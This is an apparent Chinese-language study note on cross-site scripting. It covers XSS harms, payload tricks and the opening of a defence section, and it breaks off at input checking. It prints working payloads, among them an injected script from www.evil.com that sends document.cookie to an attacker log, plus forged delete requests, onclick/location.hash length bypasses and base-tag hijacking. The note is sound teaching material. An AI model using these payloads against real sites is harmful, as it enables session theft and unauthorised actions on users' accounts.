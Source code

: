 # XSS
跨站脚本攻击，英文全称是Cross Site Script，本来缩写是CSS，但是为了和层叠样式表（Cascading Style Sheet, CSS）有所区别，所以在安全领域叫做“XSS”。



## Xss危害

### 1. 获取cookie

`    http://www.a.com/test.htm? abc="><script src=http://www.evil.com/evil.js ></script>`

```js
// evil.js
var img = document.createElement("img");
img.src = "http://www.evil.com/log? "+escape(document.cookie);
document.body.appendChild(img);
```

措施：

1. Set-Cookie时给关键Cookie植入HttpOnly标识

2. 把Cookie与客户端IP绑定，从而使得XSS窃取的Cookie失去意义

### 2. 构造GET、POST请求

正常删除该文章的链接是：`    http://blog.sohu.com/manage/entry.do? m=delete&id=156713012`

通过插入一张图片来发起一个GET请求，如果作者执行了该脚本则会删除文章，攻击者将通过XSS诱使用户执行XSS Payload

```js
var img = document.createElement("img");
img.src = "http://blog.sohu.com/manage/entry.do? m=delete&id=156713012";
document.body.appendChild(img);
```

POST同样，可以构造一个form表单提交或直接发送post请求

XSS攻击后，攻击者除了可以实施“Cookie劫持”外，还能够通过模拟GET、POST请求操作用户的浏览器。**这在某些隔离环境中会非常有用，比如“Cookie劫持”失效时，或者目标用户的网络不能访问互联网等情况。**

### 3. XSS钓鱼

前面说XSS可构造GET、POST请求，考虑下面2种场景：

1. 在提交表单时要求用户输入验证码，那么一般的XSS Payload都会失效；

2. 在大多数“修改用户密码”的功能中，在提交新密码前，都会要求用户输入“Old Password”。而这个“Old Password”，对于攻击者来说，往往是不知道的。



绕过方案：

1. 对于验证码，XSS Payload可以通过读取页面内容，将验证码的图片URL发送到远程服务器上来实施——攻击者可以在远程XSS后台接收当前验证码，并将验证码的值返回给当前的XSS Payload，从而绕过验证码。
2. 为了窃取密码，攻击者可以将XSS与“钓鱼”相结合。伪造登录框，诱导用户输入用户名、密码

### 4. 识别用户浏览器

`    alert(navigator.userAgent);`

mac：'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'

ios：'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Mobile Safari/537.36'

根据浏览器支持的某些特性来更加具体地判断浏览器机器版本，利用浏览器漏洞实施其它攻击。

### 5. 识别用户安装的软件

在IE中，可以通过判断ActiveX控件的classid是否存在，来推测用户是否安装了该软件。这种方法很早就被用于“挂马攻击”——黑客通过判断用户安装的软件，选择对应的浏览器漏洞，最终达到植入木马的目的。

```
try {
var Obj = new ActiveXObject('XunLeiBHO.ThunderIEHelper');
} catch (e){
// 异常了，不存在该控件
}
```

### 6. CSS History Hack

css的visited属性——如果用户曾经访问过某个链接，那么这个链接的颜色会变得与众不同。见 `1 CSS history.html`

### 7. XSS蠕虫

XSS Worm是XSS的一种终极利用方式，它的破坏力和影响力是巨大的。但是发起XSS Worm攻击也有一定的条件。一般来说，用户之间发生交互行为的页面，如果存在存储型XSS，则比较容易发起XSS Worm攻击。比如，发送站内信、用户留言等页面，都是XSS Worm的高发区，需要重点关注。而相对的，如果一个页面只能由用户个人查看，比如“用户个人资料设置”页面，因为缺乏用户之间互动的功能，所以即使存在XSS，也不能被用于XSS Worm的传播。

## XSS构造技巧

### 1. 绕过长度

如果后台对产生XSS的地方有变量的长度限制

`    <input type=text value="$var" />`

服务器端如果对输出变量“$var”做了严格的长度限制，那么攻击者可能会这样构造XSS：

`    $var为： "><script>alert(/xss/)</script>`

期望`    <input type=text value=""><script>alert(/xss/)</script>" />`

如果后台限制20个字符，则实际为`    $var输出为： "><script> alert(/xss`

连一个完整的函数都无法写完，XSS攻击可能无法成功。



换一个事件的写法：

`    $var输出为： "onclick=alert(1)//`

实际输出：`    <input type=text value="" onclick=alert(1)//"/>`

也可以通过简短的代码加载更多的外部脚本



另一个“藏代码”的地方是“location.hash”。而且根据HTTP协议，location.hash的内容不会在HTTP包中发送，所以服务器端的Web日志中并不会记录下location.hash里的内容，从而也更好地隐藏了黑客真实的意图。

`    $var输出为： " onclick="eval(location.hash.substr(1))`

`    <input type="text" value="" onclick="eval(location.hash.substr(1))" />`

url: `    http://www.a.com/test.html#alert(1)` 就会弹窗

location.hash本身没有长度限制，但是浏览器的地址栏是有长度限制的，不过这个长度已经足够写很长的XSS Payload了。要是地址栏的长度也不够用，还可以再使用加载远程JS的方法，来写更多的代码。



2个文本框绕过：

```html
<input id=1 type="text" value="" />
xxxxxxxxxxxxx
<input id=2 type="text" value="" />
```

2个输入框分别输入：

`    "><!--`    

`    --><script>alert(/xss/); </script>`

```html
<input id=1 type="text" value=""><!--" />
xxxxxxxxxxxxxxxxx
<input id=2 type="text" value="--><script>alert(/xss/); </script>" />
```

第一个输入框只有6个字符

### 2. 使用base标签

见demo：5 html base.html

`<base>标签将指定其后的标签默认从base标签的href取URL：`

`<base>`标签可以出现在页面的任何地方，并作用于位于该标签之后的所有标签。攻击者如果在页面中插入了<base>标签，就可以通过在远程服务器上伪造图片、链接或脚本，劫持当前页面中的所有使用“相对路径”的标签。

### 3. Window.name

window对象是浏览器的窗体，而并非document对象，因此很多时候window对象不受同源策略的限制。攻击者利用这个对象，可以实现跨域、跨页面传递数据。

Demo: 待补充

## XSS防御

### 1. Cookie httpOnly

浏览器将禁止页面的JavaScript访问带有HttpOnly属性的Cookie。

XSS攻击带来的不光是Cookie劫持问题，还有窃取用户信息、模拟用户身份执行操作等诸多严重的后果。如前文所述，攻击者利用AJAX构造HTTP请求，以用户身份完成的操作，就是在不知道用户Cookie的情况下进行的。使用HttpOnly有助于缓解XSS攻击，但仍然需要其他能够解决XSS漏洞的方案。

### 2. 输入检查
